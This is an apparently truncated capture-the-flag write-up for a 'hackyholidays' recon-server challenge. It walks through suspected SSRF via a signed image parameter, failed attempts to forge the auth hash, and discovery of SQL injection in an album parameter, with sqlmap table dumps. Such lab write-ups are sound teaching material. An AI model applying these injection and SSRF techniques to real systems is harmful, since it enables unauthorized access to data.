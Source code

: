 
Tommorrow let's hope to get into the Gringh recon server and maybe DDOS it!

# flag11

We start from `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59` where we read:

	We are currently developing an API, apologies for anything that doesn't work quite right


Every api endpoint seems to give this error

	https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api
 	
	error	"This endpoint cannot be visited from this IP address"

Probably we have to find a way to trick the server in sending requests to this API endpoints via some SSRF.


Initial tought is about the image paramter in these requests:

	https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzEyNTQzMTRiODI5MmI4Zjc5MDg2MmQ2M2ZhNWRjZThmLmpwZyIsImF1dGgiOiI5OWMwMGQzZWVmNzA4NDdhYzQ4ODhhZTg1ZDBiNGM3ZSJ9

```
{"image":"r3c0n_server_4fdk59\/uploads\/db507bdb186d33a719eb045603020cec.jpg","auth":"bbf295d686bd2af346fcd80c5398de9a"}
{"image":"r3c0n_server_4fdk59\/uploads\/13d74554c30e1069714a5a9edda8c94d.jpg","auth":"94fb398d78b36e7c079e7560ce9df721"}
{"image":"r3c0n_server_4fdk59\/uploads\/9b881af8b32ff07f6daada95ff70dc3a.jpg","auth":"e934f4407a9df9fd272cdb9c397f673f"}
{"image":"r3c0n_server_4fdk59\/uploads\/32febb19572b12435a6a390c08e8d3da.jpg","auth":"76ba061d356c6264a6005216e1776ba6"}
{"image":"r3c0n_server_4fdk59\/uploads\/0a382c6177b04386e1a45ceeaa812e4e.jpg","auth":"ec5a9920e177ccc84974146f93ae04b0"}
{"image":"r3c0n_server_4fdk59\/uploads\/1254314b8292b8f790862d63fa5dce8f.jpg","auth":"99c00d3eef70847ac4888ae85d0b4c7e"}
```

After spending a lot of time trying to reverse engineer the algorithm which signs (via auth paramter) the image paramter.
It was not (at least trying with common passwords as salts) a weak hash of SALT+image, and also length extension attack did not produce anything.

So back to the basic recon.
Initially we did not put much attention on the hash paramter in  `/r3c0n_server_4fdk59/album?hash=` but it is clearly vulnerable so sql injection.

In a few seconds sqlmap reveals

```
Database: recon
Table: album
[3 entries]
+----+--------+-----------+
| id | hash   | name      |
+----+--------+-----------+
| 1  | 3dir42 | Xmas 2018 |
| 2  | 59grop | Xmas 2019 |
| 3  | jdh34k | Xmas 2020 |
+----+--------+-----------+


Database: recon
Table: photo
[6 entries]
+----+----------+--------------------------------------+
| id | album_id | photo                                |
```